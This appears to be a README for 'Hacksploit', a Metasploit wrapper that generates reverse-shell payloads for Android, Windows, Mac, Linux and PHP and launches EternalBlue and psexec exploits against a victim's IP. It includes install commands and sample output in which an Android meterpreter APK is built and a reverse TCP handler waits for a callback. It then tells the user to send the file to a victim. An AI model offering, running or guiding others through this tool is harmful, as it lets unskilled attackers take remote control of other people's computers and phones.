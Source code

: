 # Hacksploit Version 3.1
A tool makes the Metasploit Payloads Easier and faster
Contains 8 payloads. Very Faster and Easier than ever. This will also save the time

{Version 3.1 has only 9 payloads but some are different payloads}
The PAYLOADS are:
```
1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003
```


# Install-Hacksploit
```
git clone https://github.com/Pentesting-Lab/Hacksploit.git
```
```
cd Hacksploit
```
# Running the install.sh
It  will install the Hacksploit in your computer. So you can type hacksploit anywhere in terminal to launch.
  
# ReadThis!
This is only for education purposes. This can be useful for those who don't know hacking. They just wanted to give their IP and Payload Name and for  Remote Desktop (ms17_010_eternalblue) and Exploit Windows Vista/XP/2000/2003 ONLY by IP(ms17_010_psexec) needs Victims ip. After giving  those things easily you can hack. So it is very fast and easier and also makes the work easier. Even installer is also available. You can run it and install Hacksploit in your linux computer. Then you don't need to give cd Hacksploit. Just you can type hacksploit anywhere in your terminal. Then hacksploit wil start to run.

# What is the output?
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 
~~~
Now select one of the option from the menu. For example I will select option 1
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 1
Application Name: Pentesting-Lab    
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 10181 bytes
Payload location is /root/Desktop/Pentesting-Lab.apk

[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
payload => android/meterpreter/reverse_tcp
lhost => 192.168.29.81
lport => 4444
[*] Started reverse TCP handler on 192.168.29.81:4444 
~~~
So this will save the payload in Desktop. It will also show.
~~~
Payload location is /root/Desktop/Pentesting-Lab.apk
~~~
After you should send the payload to victim he will be hacked. Meterpreter session willwe opened
~~~
meterpreter>
~~~
So now you can type help for more commands.

For more information on payloads and etc... please visit https://github.com/Pentesting-Lab/Hacksploit/wiki/Hacksploit-Home

